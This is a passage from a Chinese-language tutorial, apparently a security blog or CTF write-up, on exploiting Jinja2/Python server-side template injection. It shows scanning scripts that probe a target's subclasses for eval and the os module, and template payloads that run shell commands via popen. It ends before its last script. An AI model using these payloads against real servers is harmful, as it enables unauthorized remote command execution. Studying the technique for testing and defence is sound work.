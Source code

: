 可以用来执行命令的类有很多，其基本原理就是遍历含有 eval 函数即 os 模块的子类，利用这些子类中的 eval 函数即 os 模块执行命令。这里我们简单挑几个常用的讲解。

### 寻找内建函数 eval 执行命令

首先编写脚本遍历目标 Python 环境中含有内建函数 eval 的子类的索引号：

```
import requestsheaders = {    'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/70.0.3538.110 Safari/537.36'}for i in range(500):    url = "http://47.xxx.xxx.72:8000/?name={{().__class__.__bases__[0].__subclasses__()["+str(i)+"].__init__.__globals__['__builtins__']}}"    res = requests.get(url=url, headers=headers)    if 'eval' in res.text:        print(i)# 得到一大堆子类的索引:646566676879808183919293949596117...
```

我们可以记下几个含有 eval 函数的类：

•warnings.catch_warnings•WarningMessage•codecs.IncrementalEncoder•codecs.IncrementalDecoder•codecs.StreamReaderWriter•os._wrap_close•reprlib.Repr•weakref.finalize•......

所以 payload 如下：

```
{{''.__class__.__bases__[0].__subclasses__()[166].__init__.__globals__['__builtins__']['eval']('__import__("os").popen("ls /").read()')}}
```

![](https://mmbiz.qpic.cn/mmbiz_png/Uq8Qfeuvou9iaiaHWJGG2S4iboyHekzDz9QibIIicCB516aSibTrjL5GK5QRdtmVpSx48SdhiapiaibiadSA36KTK0sHn0Vw/640?wx_fmt=png)image-20210308095610417

我们可以看到，使用 eval 函数执行命令也是调用的 os 模块，那我们直接调用 os 模块不是更简单？

### 寻找 os 模块执行命令

Python 的 os 模块中有 system 和 popen 这两个函数可用来执行命令。其中 system() 函数执行命令是没有回显的，我们可以使用 system() 函数配合 curl 外带数据；popen() 函数执行命令有回显。所以比较常用的函数为 popen() 函数，而当 popen() 函数被过滤掉时，可以使用 system() 函数代替。

首先编写脚本遍历目标 Python 环境中含有 os 模块的类的索引号：

```
import requestsheaders = {    'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/70.0.3538.110 Safari/537.36'}for i in range(500):    url = "http://47.xxx.xxx.72:8000/?name={{().__class__.__bases__[0].__subclasses__()["+str(i)+"].__init__.__globals__}}"    res = requests.get(url=url, headers=headers)    if 'os.py' in res.text:        print(i)# 可以得到一大堆类646566676879808183117147154161162163164...
```

随便挑一个类构造 payload 执行命令即可：

```
{{''.__class__.__bases__[0].__subclasses__()[79].__init__.__globals__['os'].popen('ls /').read()}}
```

但是该方法遍历得到的类不准确，因为一些不相关的类名中也存在字符串 “os”，所以我们还要探索更有效的方法。

我们可以看到，即使是使用 os 模块执行命令，其也是调用的 os 模块中的 popen 函数，那我们也可以直接调用 popen 函数，存在 popen 函数的类一般是 `os._wrap_close`，但也不绝对。由于目标 Python 环境的不同，我们还需要遍历一下。

### 寻找 popen 函数执行命令

首先编写脚本遍历目标 Python 环境中含有 popen 函数的类的索引号：
